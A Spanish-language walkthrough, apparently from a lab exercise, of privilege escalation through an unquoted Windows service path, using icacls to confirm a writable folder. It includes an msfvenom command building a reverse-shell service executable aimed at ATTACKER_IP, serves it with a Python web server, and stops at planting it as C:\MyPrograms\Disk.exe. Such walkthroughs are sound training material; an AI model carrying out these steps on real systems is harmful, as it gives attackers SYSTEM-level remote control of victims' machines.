 Esto tiene que ver con la forma en que el cmd analiza un comando. Por lo general, cuando envía un comando, los espacios se usan como separadores de argumentos a menos que formen parte de una cadena entrecomillada. Esto significa que la interpretación "correcta" del comando sin comillas sería ejecutar `C:\\Myprogram\\Disk.exe` y tomar el resto como argumentos.

1. Primero, busca `C:\\MyPrograms\\Disk.exe`. Si existe, el servicio ejecutará este ejecutable.

2. Si este último no existe, entonces buscará `C:\\MyPrograms\\Disk Sorter.exe`. Si existe, el servicio ejecutará este ejecutable.

3. Si este último no existe, entonces buscará `C:\\MyPrograms\\Disk Sorter Enterprise\\bin\\disksrs.exe`. Se espera que esta opción tenga éxito y, por lo general, se ejecutará en una instalación predeterminada.


A partir de este comportamiento, el problema se hace evidente. Si un atacante crea alguno de los ejecutables que se buscan antes que el ejecutable del servicio esperado, puede obligar al servicio a ejecutar un ejecutable arbitrario.

Si bien esto suena trivial, la mayoría de los ejecutables del servicio se instalarán bajo `C:\Program Files`o `C:\Program Files (x86)`por defecto, que no es escribible por usuarios sin privilegios. Esto evita que cualquier servicio vulnerable sea explotado. Hay excepciones a esta regla: - Algunos instaladores cambian los permisos en las carpetas instaladas, lo que hace que los servicios sean vulnerables. - Un administrador puede decidir instalar los archivos binarios del servicio en una ruta no predeterminada. Si tal ruta es de escritura mundial, la vulnerabilidad puede ser explotada.

En nuestro caso, el administrador instaló los archivos binarios de Disk Sorter en `c:\MyPrograms`. Por defecto, hereda los permisos del `C:\`directorio, que permite a cualquier usuario crear archivos y carpetas en él. Podemos verificar esto usando `icacls`:


```
C:\>icacls c:\MyPrograms
c:\MyPrograms NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
              BUILTIN\Administrators:(I)(OI)(CI)(F)
              BUILTIN\Users:(I)(OI)(CI)(RX)
              BUILTIN\Users:(I)(CI)(AD)
              BUILTIN\Users:(I)(CI)(WD)
              CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

El `BUILTIN\\Users`El grupo tiene **privilegios AD** y **WD** , lo que permite al usuario crear subdirectorios y archivos, respectivamente.

Creamos un msfvenom y transferimos a la maquina victima:

```
j4ckie@jackie-host$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4446 -f exe-service -o rev-svc.exe

j4ckie@jackie-host$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ahora lo movemos a `C:\MyPrograms\Disk.exe`y le ponemos permisos de ejecución como Everyone.

